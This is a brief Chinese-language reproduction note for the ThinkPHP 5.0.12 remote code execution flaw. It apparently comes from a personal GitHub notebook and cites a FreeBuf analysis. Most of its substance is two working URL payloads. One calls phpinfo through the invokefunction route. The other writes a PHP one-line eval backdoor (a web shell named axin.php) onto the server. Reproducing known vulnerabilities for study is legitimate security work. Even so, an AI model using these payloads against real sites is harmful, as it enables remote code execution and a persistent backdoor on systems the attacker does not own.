


### 参考

freebuf上比较全面的复现及分析：https://www.freebuf.com/vuls/191847.html

### 复现

复现环境： thinkphp5.0.12

看了上面的那篇文章，才知道win平台与linux平台payload不太一样，我这里是linux平台。

**写phpinfo**

`/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**写一句话木马**

`/index.php/?s=index/\think\template\driver\file/write&cacheFile=axin.php&content=<?php @eval($_POST[axin]);?>`

